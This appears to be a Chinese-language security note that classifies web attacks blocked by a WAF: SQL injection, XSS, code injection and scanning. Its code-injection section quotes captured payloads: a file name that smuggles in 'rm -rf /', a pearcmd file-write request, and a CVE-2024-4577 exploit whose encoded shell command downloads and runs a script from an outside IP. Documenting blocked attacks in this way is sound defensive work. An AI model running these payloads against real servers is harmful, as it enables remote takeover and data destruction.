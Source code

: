# WAF 拦截到的攻击行为分类
## SQL 注入
### 定义 ：
攻击者通过在 Web 应用程序的输入字段中插入恶意 SQL 代码，借助 Web 应用的数据库执行漏洞，获取、篡改或删除数据。
### 常见攻击方式 ：
#### 经典 SQL 注入 ：
在输入框中直接注入恶意 SQL 查询语句，如在登录页面的用户名或密码输入框中输入 “‘ OR ‘1’=‘1”，试图绕过登录验证。
#### 盲注 ：
攻击者无法看到 SQL 查询的具体错误信息，但通过反复提交请求并观察应用的响应变化，如响应时间、页面内容差异等，逐步推测数据库结构和数据。
#### 基于时间的盲注 ：
通过控制 SQL 查询的执行时间，根据页面响应时间的长短来间接获知数据库的内容。
## XSS 注入
### 定义 ：
攻击者将恶意脚本注入到 Web 页面中，当受害者访问该页面时，恶意脚本在用户的浏览器中执行，从而窃取用户敏感信息、劫持用户会话或在页面上展示欺诈性内容。
### 常见攻击类型 ：
#### 存储型 XSS ：
攻击者将恶意脚本存储在服务器端，如在留言板块、数据库中保存恶意脚本，当其他用户访问时，这些脚本会自动执行。
#### 反射型 XSS ：
攻击者通过构造包含恶意脚本的 URL 或请求参数，诱使受害者点击链接，恶意脚本随之被嵌入到请求中并执行。
#### 基于 DOM 的 XSS ：
利用客户端的 JavaScript 代码进行脚本注入，通过修改页面的 DOM 结构，使恶意脚本执行。
## 代码注入
### 定义 ：
攻击者向应用程序中插入恶意代码，使应用程序执行非预期的操作，常见的有命令注入、脚本注入等。
### 常见攻击方式 ：
##### 命令注入 ：
攻击者通过应用程序的输入点，如表单、查询参数等，注入操作系统命令，如果应用程序未对输入进行严格过滤和验证，就可能执行这些恶意命令，导致敏感信息泄露、系统受损等。
例如
文件名字段未过滤特殊字符，提交的payload包含，且后台处理时未做处理可能导致注入的命令被执行
```
test.jpg; rm -rf /
```

##### 脚本注入 ：
例如
```html
GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5("hi"));?>+/tmp/index1.php HTTP/1.1
Host: 182.140.209.42:443
Accept: */*
Upgrade-Insecure-Requests: 1
User-Agent: Custom-AsyncHttpClient
Connection: keep-alive
```

```html
POST /hello.world?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: 182.140.209.44:443
Accept: */*
Upgrade-Insecure-Requests: 1
User-Agent: Custom-AsyncHttpClient
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 221

<?php shell_exec(base64_decode("WD0kKGN1cmwgaHR0cDovLzEwNy4xNTAuMC4xMDMvc2ggfHwgd2dldCBodHRwOi8vMTA3LjE1MC4wLjEwMy9zaCAtTy0pOyBlY2hvICIkWCIgfCBzaCAtcyBjdmVfMjAyNF80NTc3LnNlbGZyZXA=")); echo(md5("Hello CVE-2024-4577")); ?>
```

## 扫描
#### 针对常见接口的扫描 ：
攻击者常对一些常见的 Web 接口进行扫描，如 wordpress 的 wp-admin、openapi 的 /openapi/、通用的 /admin/ /test/ /.env 等，以寻找可利用的漏洞或敏感信息。虽当前产品未使用，但此类扫描行为仍需关注，防止未来业务扩展后产生风险。
```


#### 搜索引擎的蜘蛛或其他爬虫 ：
搜索引擎会主动请求 /robot.txt 以了解网站可爬取的范围，但部分扫描脚本也会利用该文件来获取网站信息，存在一定风险。鉴于当前产品无需搜索引擎爬取，可在 WAF 上配置拦截策略，禁止搜索引擎爬虫和恶意扫描脚本的访问，同时设置合理的访问频率限制，防止爬虫对服务器造成过大压力。
